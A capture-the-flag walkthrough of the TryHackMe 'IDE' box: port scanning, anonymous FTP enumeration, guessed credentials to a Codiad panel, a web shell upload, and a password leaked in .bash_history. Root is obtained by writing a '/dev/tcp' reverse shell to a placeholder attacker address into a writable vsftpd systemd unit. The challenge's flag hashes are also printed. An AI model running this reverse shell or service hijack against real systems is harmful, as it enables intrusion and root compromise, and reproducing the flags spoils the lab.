


IDE
Platform: TryHackMe
Type: Challenge
Difficulty: Easy
Link: IDE
Description
"An easy box to polish your enumeration skills! Gain a shell on the box and escalate your privileges!"
Enumeration
Port Scanning
ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -A -T4 TARGET_IP_ADDRESS
Nmap scan report for 10.128.165.27
Host is up (0.018s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:192.168.133.5
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 3
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
| 256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_ 256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
FTP Enumeration
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||28966|)
150 Here comes the directory listing.
drwxr-xr-x 3 0 114 4096 Jun 18 2021 .
drwxr-xr-x 3 0 114 4096 Jun 18 2021 ..
drwxr-xr-x 2 0 0 4096 Jun 18 2021 ...
226 Directory send OK.
ftp> cd "..."
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||57576|)
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 151 Jun 18 2021 -
drwxr-xr-x 2 0 0 4096 Jun 18 2021 .
drwxr-xr-x 3 0 114 4096 Jun 18 2021 ..
226 Directory send OK.
ftp> get "-"
local: - remote: -
229 Entering Extended Passive Mode (|||23030|)
150 Opening BINARY mode data connection for - (151 bytes).
100% |***************************************************************************************************************| 151 2.44 MiB/s 00:00 ETA
226 Transfer complete.
151 bytes received in 00:00 (8.44 KiB/s)
ftp> quit
Contents of "-" file:

Discovered user name: "john"
HTTP Enumeration (80)
ffuf -u http://<TARGET_IP_ADDRESS>/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c
gobuster dir -u http://<TARGET_IP_ADDRESS> -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,txt,js
- No
robots.txt or sitemap files- Home page is default Apache page
- Nothing interesting in the source code
- No interesting hidden directories
HTTP Enumeration (62337)
ffuf -u http://<TARGET_IP_ADDRESS>:62337/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c
gobuster dir -u http://<TARGET_IP_ADDRESS>:62337 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,txt,js
- No
robots.txt or sitemap files- Home page is a login page
- Link to some JS scripts in the source code
- Directories returned by fuzzing but return 301 HTTP responses
Vulnerability enumeration
searchsploit vsftp 3.0.3 # Only result: DoS
searchsploit OpenSSH 7.6p1 # Results: DoS and username enumeration
searchsploit httpd 2.4.29 # Only result: DoS
Foothold
Action(s)
Using username of "john" (from discovered note) and "password" (guess! Given contents of discovered note), login to website on 62337 is successful
Exploring interface proves ability to upload files (right-click on directory underneath "Explore")
p0wnyshell uploaded
Location of uploaded file displayed (once file is opened) at the bottom of the screen:

Navigating to
/codiad_projects/<file_name>.php results in successful web shell access
www-data@ide:…/html/codiad_projects:$ ls /home
drac
www-data@ide:…/html/codiad_projects:$ ls /home/drac
user.txt
www-data@ide:…/html/codiad_projects:$ ls -al /home/drac
total 52
drwxr-xr-x 6 drac drac 4096 Aug 4 2021 .
drwxr-xr-x 3 root root 4096 Jun 17 2021 ..
-rw------- 1 drac drac 49 Jun 18 2021 .Xauthority
-rw-r--r-- 1 drac drac 36 Jul 11 2021 .bash_history
-rw-r--r-- 1 drac drac 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11 2021 .bashrc
drwx------ 4 drac drac 4096 Jun 18 2021 .cache
drwxr-x--- 3 drac drac 4096 Jun 18 2021 .config
drwx------ 4 drac drac 4096 Jun 18 2021 .gnupg
drwx------ 3 drac drac 4096 Jun 18 2021 .local
-rw-r--r-- 1 drac drac 807 Apr 4 2018 .profile
-rw-r--r-- 1 drac drac 0 Jun 17 2021 .sudo_as_admin_successful
-rw------- 1 drac drac 557 Jun 18 2021 .xsession-errors
-r-------- 1 drac drac 33 Jun 18 2021 user.txt
www-data@ide:…/html/codiad_projects:$ cat /home/drac/.bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
ssh drac@<TARGET_IP_ADDRESS>
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
drac@<TARGET_IP_ADDRESS>'s password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Fri Oct 23 11:03:40 UTC 2026
System load: 0.22 Processes: 117
Usage of /: 53.0% of 8.79GB Users logged in: 0
Memory usage: 50% IP address for ens5: 10.128.165.27
Swap usage: 0%
* Canonical Livepatch is available for installation.
- Reduce system reboots and improve kernel security. Activate at:
https://ubuntu.com/livepatch
69 packages can be updated.
1 update is a security update.
Last login: Wed Aug 4 06:36:42 2021 from 192.168.0.105
drac@ide:~$ ls
user.txt
drac@ide:~$ cat user.txt
user.txt
02930d21a8eb009f6d26361b2d24a466
Privilege Escalation
drac@ide:~$ sudo -l
[sudo] password for drac:
Matching Defaults entries for drac on ide:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User drac may run the following commands on ide:
find / -name "vsftpd.service" -exec ls -l {} \; 2>/dev/null
#REDACTED FOR BREVITY
total 0
-r--r--r-- 1 root root 0 Oct 24 11:35 cgroup.controllers
-r--r--r-- 1 root root 0 Oct 24 11:31 cgroup.events
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.max.depth
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.max.descendants
-rw-r--r-- 1 root root 0 Oct 24 11:31 cgroup.procs
-r--r--r-- 1 root root 0 Oct 24 11:35 cgroup.stat
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.subtree_control
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.threads
-rw-r--r-- 1 root root 0 Oct 24 11:35 cgroup.type
-r--r--r-- 1 root root 0 Oct 24 11:35 cpu.stat
-rw-rw-r-- 1 root drac 248 Aug 4 2021 /lib/systemd/system/vsftpd.service
lrwxrwxrwx 1 root root 34 Jun 18 2021 /etc/systemd/system/multi-user.target.wants/vsftpd.service -> /lib/systemd/system/vsftpd.service
-rw-r--r-- 1 root root 0 Jun 18 2021 /var/lib/systemd/deb-systemd-helper-enabled/multi-user.target.wants/vsftpd.service
ExecStartPre of writable config file for vsftpd to:[Unit]
Description=vsftpd FTP server
After=network.target
[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP_ADDRESS>/4444 0>&1'
[Install]
WantedBy=multi-user.target
nc -lvnp 4444On target machine:
systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password:
==== AUTHENTICATION COMPLETE ===
sudo /usr/sbin/service vsftpd restart
Listening on 0.0.0.0 4444
Connection received on 10.130.140.134 42388
bash: cannot set terminal process group (1839): Inappropriate ioctl for device
bash: no job control in this shell
ls -al /root
total 40
drwx------ 6 root root 4096 Jun 18 2021 .
drwxr-xr-x 24 root root 4096 Jul 9 2021 ..
lrwxrwxrwx 1 root root 9 Jun 18 2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Apr 9 2018 .bashrc
drwx------ 2 root root 4096 Jun 18 2021 .cache
drwx------ 3 root root 4096 Jun 18 2021 .gnupg
drwxr-xr-x 3 root root 4096 Jun 18 2021 .local
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
-r-------- 1 root root 33 Jun 18 2021 root.txt
-rw-r--r-- 1 root root 66 Jun 18 2021 .selected_editor
drwx------ 2 root root 4096 Jun 17 2021 .ssh
cat /root/root.txt
root.txt
ce258cb16f47f1c66f0b0b77f4e0fb8d
Date completed: 24/10/26
Date published: 24/10/26